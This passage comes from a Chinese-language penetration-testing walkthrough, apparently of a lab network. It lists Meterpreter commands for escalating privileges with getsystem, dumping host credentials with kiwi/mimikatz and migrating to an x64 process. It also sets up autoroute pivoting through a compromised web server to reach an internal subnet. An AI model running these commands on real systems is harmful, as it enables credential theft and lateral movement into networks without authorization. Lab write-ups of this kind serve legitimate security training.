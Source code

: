 网卡配置

```
10.10.10.132		#网卡一


192.168.52.143		#网卡二
```

#### 2.kiwi 主机密码收集

```
load kiwi #加载kiwi
getsystem #提权
creds_all #查看密码

#提示错误 需要转移进程去x64

ps #找一个x64的进程的pid
migrate 5328 #迁移进程

#重新执行
load kiwi
getsystem
creds_all
```

> 发现到主机密码

## 3、横向移动

### 1、搭建隧道

横向渗透前，先将该web服务器配置为代理服务器当作跳板机。

#### msf+proxychains

可用msf直接搭建sock隧道

##### msf创建路由

进入session，创建路由:

```
run autoroute -s 192.168.52.0/24  #将session的主机的192.168.52.0/24 网段路由到msf
```

![在这里插入图片描述](https://tva1.sinaimg.cn/large/e6c9d24egy1h0ivj0b1u3j20zw0a640o.jpg)

查看路由：

```
run autoroute -p
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020112321301510.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODIxNjAz,size_16,color_FFFFFF,t_70#pic_center)
